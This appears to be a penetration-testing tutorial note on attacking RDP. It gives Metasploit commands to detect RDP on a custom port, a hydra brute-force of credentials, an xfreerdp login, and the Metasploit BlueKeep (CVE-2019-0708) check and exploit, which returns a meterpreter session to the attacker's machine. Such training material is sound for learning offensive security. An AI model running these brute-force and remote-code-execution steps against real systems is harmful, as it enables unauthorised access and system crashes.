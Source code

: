```yaml
---
description: '3389'
---
```


# 3 - Exploiting RDP

## **Exploiting RDP**

* The Remote Desktop Protocol (RDP) is a proprietary GUI remote access protocol developed by Microsoft and is used to remotely connect and interact with a Windows system.
* RDP uses TCP port 3389 by default, and can be configured to run on any other TCP port.
* RDP authentication requires a legitimate user account on the target system as well as the user's password in clear-text.
* We can perform an RDP brute-force attack to identify legitimate user credentials that we can use to gain remote access to the target system.



## **Practical Demonstration**

RDP can be configured on another port instead of the default port 3389, in this case port 3333.

```bash
# we can use a metasploit module to check if a port is RDP port
search rdp_scanner
use auxiliary/scanner/rdp/rdp_scanner
options
set RHOSTS $ip
set RPORT 3333 # set this to the value you are doubtful of.
run
# we detected that RDP is running on that port.
```

In order to authenticate/login via RDP, we need valid credentials, so we can use bruteforce to obtain these credentials.

`hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_password.txt rdp://$ip -s 3333` - specify the port with the `-s` .&#x20;

### Using \[xfreerdp] utility to login via rdp

`xfreerdp /u:administrator /p:quertyuiop /v:$ip:3333` - Connect to target machine via RDP with correct credentials.



## Exploiting Windows CVE-2019-0708 RDP Vulnerability (BlueKeep)

### **CVE-2019-0708 - BlueKeep**

* BlueKeep (CVE-2019-0708) is the name given to an RDP vulnerability in Windows that could potentially allow attacker to remotely execute arbitrary code and gain access to a Windows system and consequently the network that the target is a part of.
* The BlueKeep vulnerability was made public by Microsoft in May 2019.
* The BlueKeep exploit takes advantage of a vulnerability in the Windows RDP protocol that allows attackers to gain access to a chunk of kernel memory consequently allowing them to remotely execute arbitrary code at the system level without authentication.
* Microsoft released a patch for this vulnerability on May 14th 2019 and has urged companies to patch this vulnerability as soon as possible.
* At the time of discovery, about 1 million systems worldwide were found to be vulnerable.
* The BlueKeep vulnerability affects multiple versions of Windows:
  * XP
  * Vista
  * Windows 7
  * Windows Server 2008 & R2

### **CVE-2019-0708 - BlueKeep Exploit**

* The BlueKeep vulnerability has various illegitimate PoC's and exploit code that could be malicious in nature. It is therefore recommended to only utilize verified exploit code and modules for exploitation.
* The BlueKeep exploit has an MSF auxiliary module that can be used to check if a target system is vulnerable to the exploit and also has an exploit module that can be used to exploit the vulnerability on unpatched systems.
* The BlueKeep exploit module can be used to exploit vulnerable Windows systems and consequently provide us with a privileged meterpreter session on the target system.

### **Practical Demonstration**

```bash
# 1
# Check if the target system is vulnerable to the BlueKeep vulnerability
use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
set RHOSTS $ip
run

# 2
# Exploit fot the BlueKeep vulnerability (You have to set the target OS version..
# .. yourself) (show targets)
# this exploit works on only 64bit windows system.
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
options
set RHOSTS $ip
set LHOST $kali_ip
show targets # select your target system.
# If the GROOM (kernel memory) size is too high, the target system will crash.
run
# we might get a metepreter session.
```



